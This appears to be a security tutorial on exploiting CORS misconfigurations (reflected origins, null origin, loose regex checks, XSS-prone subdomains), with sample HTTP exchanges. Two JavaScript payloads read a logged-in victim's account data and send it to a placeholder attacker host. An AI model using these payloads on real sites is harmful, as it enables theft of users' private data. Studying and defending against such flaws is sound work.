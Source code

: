# Exploiting common CORS configuration flaws

## Origin reflected

* Managing a list of trusted domains can be challenging, especially for applications that need to interact with many different domains.
* To make things easier, some web applications automatically allow any incoming request by taking the value of the `Origin` header and sending it back in the `Access-Control-Allow-Origin` response header without checking if it's from a trusted source.
* However, this approach can unintentionally allow unauthorized websites to access sensitive user data.
* In the following scenario, the server reflects the `Origin` header (`https://attacker.tbl`) in the `Access-Control-Allow-Origin` response header:

  ```http
  GET /api/v1/account/ HTTP/2
  Host: domain.tbl
  Cookie: session=abc123securecookie
  Origin: https://attacker.tbl
  ```

  ```http
  HTTP/2 200 OK
  Content-Type: application/json
  Access-Control-Allow-Origin: https://attacker.tbl
  Access-Control-Allow-Credentials: true

  {
    "username": "johndoe",
    "email": "john@example.tbl"
  }
  ```

* Because the user's session cookie is included and `Access-Control-Allow-Credentials` is enabled, the malicious site (`attacker.tbl`) can access the user's sensitive account data without proper authorization.
* This behavior can be exploited if the following JavaScript code is executed on the user's browser:

  ```javascript
  var req = new XMLHttpRequest(); 
  req.onload = reqListener; 
  req.open('get','https://domain.tbl/api/v1/account/',true); 
  req.withCredentials = true;
  req.send();

  // Logs the user's request on attacker's backend
  function reqListener() {
      location='//attacker.tbl/log?key='+this.responseText; 
  };
  ```

## Null origin is authorized

* When developing web applications locally, it is not uncommon for the `null` origin to be added to the whitelist of authorized origins.
* This inclusion of `null` in the whitelist can be a common practice to facilitate the development and debugging of applications on local environments.
* However, if this value keeps in the allowlist in production, an attacker can craft a request where the `Origin` value is `null`, allowing unauthorized websites to access sensitive user data:

  ```html
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain.tbl/api/v1/account/',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
      location='https://attacker.tbl/log?key='+encodeURIComponent(this.responseText);
    };
  </script>"></iframe> 
  ```

## Verification based on regular expression

* When a web application needs to support a large number of trusted origins, developers sometimes use regular expressions to simplify origin validation.
* However, if these regular expressions are too broad or poorly constructed, they can be bypassed by attackers.
* For instance, if the application uses the regular expression `.+domain\.tbl`, it will match any string that ends in `domain.tbl`, including malicious domains like `attacker-domain.tbl`:

  ```http
  GET /api/v1/account/ HTTP/2
  Host: attacker-domain.tbl
  Cookie: session=abc123securecookie
  Origin: https://attacker.tbl
  ```

  ```http
  HTTP/2 200 OK
  Content-Type: application/json
  Access-Control-Allow-Origin: https://attacker-domain.tbl
  Access-Control-Allow-Credentials: true

  {
    "username": "johndoe",
    "email": "john@example.tbl"
  }
  ```

## Attacks using vulnerable subdomains

* Web applications sometimes configure CORS to allow requests from subdomains, using patterns like `*.domain.tbl`. This is often done to enable communication between services under the same parent domain.
* However, not all subdomains are equally secure. Older, unmaintained, or less protected subdomains may contain vulnerabilities, particularly `Cross-Site Scripting (XSS)`.
* If an attacker exploits an XSS vulnerability on one of these trusted subdomains, they can execute malicious JavaScript directly in the browser of a logged-in user.
* Since the vulnerable subdomain is already trusted by the main application via CORS, the attacker's script can send cross-origin requests to the main domain and access sensitive responses using the user's credentials.

